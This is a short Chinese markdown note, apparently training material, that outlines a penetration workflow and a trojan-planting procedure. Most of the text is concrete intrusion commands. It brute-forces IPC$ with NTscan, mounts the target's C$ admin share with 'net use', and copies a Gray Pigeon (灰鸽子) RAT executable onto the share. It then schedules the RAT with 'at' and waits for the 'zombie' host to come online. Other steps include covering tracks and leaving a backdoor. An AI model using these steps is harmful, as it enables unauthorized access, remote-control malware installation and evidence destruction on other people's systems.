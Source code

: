 # 渗透简单流程-及木马植入过程

0.授权
1.信息收集
  nslookup whois
2.扫描漏洞
  namp=ip范围 端口 80（IIS，apache，什么网站）scanport
  高级扫描：如IIS漏洞2003-IIS6.0 2008IIS7.0
            扫描网站漏洞（）
3.漏洞利用

4.提权（shell环境、桌面环境、最高权限）
========
5.毁尸灭迹
6.留后门
7.渗透测试报告

手工测试端口号开放：
telnet IP地址 测试端口

1.scanport扫描445端口

2.漏洞利用之IPC$：
进行暴力破解：NTscan

3.
net use  \\10.1.1.2\ipc$ 密码 /user:用户
=====================================
net use f: \\10.1.1.2\share 密码 /user:用户
net use f: /del
net use * /del
net use f: \\10.1.1.2\c$ 密码 /user:用户
==========================================

4.制作木马
利用光盘上的灰鸽子软件

5.植入木马（留后门）
copy d:\heihei.exe \\10.1.1.2\c$

6.设置计划任务自动执行木马：
net time \\10.1.1.2
at \\10.1.1.2 11:11 "c:\heihei.exe"

7.等待肉鸡上线